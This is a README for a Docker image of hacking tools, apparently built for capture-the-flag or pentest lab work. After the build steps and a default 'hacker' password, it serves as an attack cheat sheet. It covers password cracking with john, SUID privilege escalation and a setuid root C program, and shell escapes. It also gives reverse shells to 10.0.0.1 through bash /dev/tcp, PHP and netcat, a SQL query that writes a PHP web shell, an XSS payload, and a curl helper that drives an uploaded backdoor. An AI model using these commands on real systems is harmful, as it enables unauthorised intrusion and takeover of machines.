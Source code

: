 # hacking tools

## Build from DockerHub
[DockerHub: manigley/hacking-tools](https://hub.docker.com/repository/docker/manigley/hacking-tools)

      docker run -d \
            -p 4040-4080:4040-4080 \
            -v hacking-tools-share:/home/hacker/share:rw \
            --name hacking-tools \
            manigley/hacking-tools

      docker exec -it hacking-tools zsh


## Build from source

> - **build the image**  
>   `git clone https://github.com/roymanigley/docker-hacking-tools.git`  
>   `cd docker-hacking-tools` 
>
> - **build the image**  
>   `docker-compose build` 
>
> - **start the image**  
>   `docker-compose up -d` 
>
> - **open the shell**  
>   `docker-compose exec hacking-tools zsh`  
> the **default password** for the user hacker is **hacker**  
> 
> - **shared folders**  
>   `./hacking-tools-share → /home/hacker/share`  

## push a new version to dockerhub

      export NEW_VERSION=1.0.0
      docker-compose build \
            && docker tag docker-hacking-tools_hacking-tools:latest manigley/hacking-tools:$NEW_VERSION \
            && docker push manigley/hacking-tools:$NEW_VERSION

## Credentials

| Username    | Password |
| ----------- | -------- |
| hacker      | hacker   |

## Tools

| Name        | Installation Path             |
| ----------- | ----------------------------- |
| wordlists   | /usr/share/wordlists          |
| webshells   | /usr/share/webshells          |
| exploit-db  | /usr/share/exploit-database   |
| john        | /usr/src/john                 |
| openvpn     | /usr/sbin/openvpn             |
| nmap        | /usr/bin/nmap                 |
| dirb        | /usr/bin/dirb                 |
| sqlmap      | /usr/share/sqlmap             |
| hashcat     | /usr/bin/hashcat              |
| hydra       | /usr/bin/hydra                |
| netcat      | /bin/nc.openbsd               |
| enum4linux  | /usr/share/enum4linux         |
| PEASS-ng    | /usr/share//PEASS-ng          |
| metasploit  | /usr/bin/msfconsole           |
| msfvenom    | /usr/bin/msfvenom             |

---

## Helpers

### Links

- https://www.revshells.com/
- https://gchq.github.io/CyberChef
- https://gtfobins.github.io/
- https://pentestmonkey.net/
- https://github.com/swisskyrepo/PayloadsAllTheThings
- https://phonebook.cz/

### SMB

      smbclient -L \\\\$TARGET_HOST
      smbclient \\\\$TARGET_HOST\\ADMIN$ -U Anonymous

      enum4linux -u $TARGET_HOST
      enum4linux -s $TARGET_HOST

### BruteForce

      /usr/src/john/run/unshadow passwd.txt shadow.txt > unshadowed.txt
      /usr/src/john/run/john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
      /usr/src/john/run/john --show unshadowed.txt

      python3 /usr/src/john/run/ssh2john.py id_rsa > id_rsa.hash
      /usr/src/john/run/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
      /usr/src/john/run/john --show id_rsa.hash

      python3 /usr/src/john/run/gpg2john asdfgpg.priv > gpg.hash
      /usr/src/john/run/john --wordlist=/usr/share/wordlists/rockyou.txt gpg.hash
      /usr/src/john/run/john --show gpg.hash

### Privilege Escalation

-     uname -a; lsb_release -a; w; id;
-     find / -perm -u=s -type f 2>/dev/null
-     chmod u+s /bin/bash # as root
      /bin/bash -p # as user

-     vim /tmp/ecalate.c

      #include <unistd.h>

      int main() {
        setgid(0);
        setuid(0);
        execl("/bin/bash", "bash", (char *)NULL);
        return 0;
      }

      gcc /tmp/ecalate.c -o /tmp/ecalate
      chown root:root /tmp/ecalate
      chmod u+s /tmp/ecalate && chmod g+s /tmp/ecalate

### Shell spawning
-     nmap --interactive
      !sh
-     zip xy.zip -T -TT 'bash #'
-     python -c 'import pty;pty.spawn("/bin/bash")'
-     python -c 'import os; os.system("/bin/sh")'


> stable shell (allow CTRL+c, autocomplete etc.)  
```
CTRL+z
stty raw -echo
fg
reset
```

### RSH
> more in [RSH.md](RSH.md)

-     SELECT '<?php system($_GET["cmd"]); ?>' INTO dumpfile ‘/tmp/somefile’;

-     bash -i >& /dev/tcp/10.0.0.1/4040 0>&1

-     php -r '$sock=fsockopen("10.0.0.1",4040);exec("/bin/sh -i <&3 >&3 2>&3");'

-     nc 10.0.0.1 4040 | /bin/sh | nc 10.0.0.1 4242

### XSS

-     <img src="!" onerror="alert(1);">

### Scripts 
-     type nc; type netcat; type python; type python2; type python3 


      function myrsh {
            declare param=$(omz_urlencode "$1")
            curl "http://10.10.48.94/uploads/php-backdoor.phtml?cmd=$param"
      }